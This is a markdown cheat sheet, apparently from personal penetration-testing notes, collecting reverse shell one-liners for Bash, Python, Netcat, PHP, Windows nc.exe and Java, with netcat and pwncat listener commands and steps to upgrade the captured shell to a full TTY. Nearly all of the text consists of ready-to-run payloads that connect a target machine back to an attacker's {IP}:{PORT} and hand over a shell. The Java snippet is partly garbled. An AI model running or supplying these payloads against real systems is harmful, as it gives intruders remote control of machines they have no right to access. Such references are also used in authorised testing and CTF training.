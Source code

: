 ```yaml
---
title: "Reverse-Shell"
description: "Commands to start a reverse shell on multiple languages"
date: 24/11/2019
categories:
 - Misc
tags:
 - netcat
 - bash
 - shell
---
```



A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine

### Listen with NetCat

To listen for an incoming connection and upgrade to a pty shell:

```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
> instead of the one provided by the OS

You can use [`rlwrap`](https://linux.die.net/man/1/rlwrap) to use arrow keys.


### Listen with PwnCat

[`pwncat`](https://pwncat.org/) is a `netcat` with advanced features.

```bash
pwncat -lv {PORT}
```


### Upgrade the shell

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:

```bash
stty raw -echo
```

The console should be black, next foreground the shell with:

```bash
fg
reset
```

On target host:

```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

Now you should have a complete shell with shortcuts available.


## On the remote server

### Windows

Upload [`nc.exe`](https://eternallybored.org/misc/netcat/) on the remote server
then use the command (same as [NetCat](#netcat)):

```bash
cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
```


### PowerShell

This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).


### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
> force the `bash`


### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

> This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
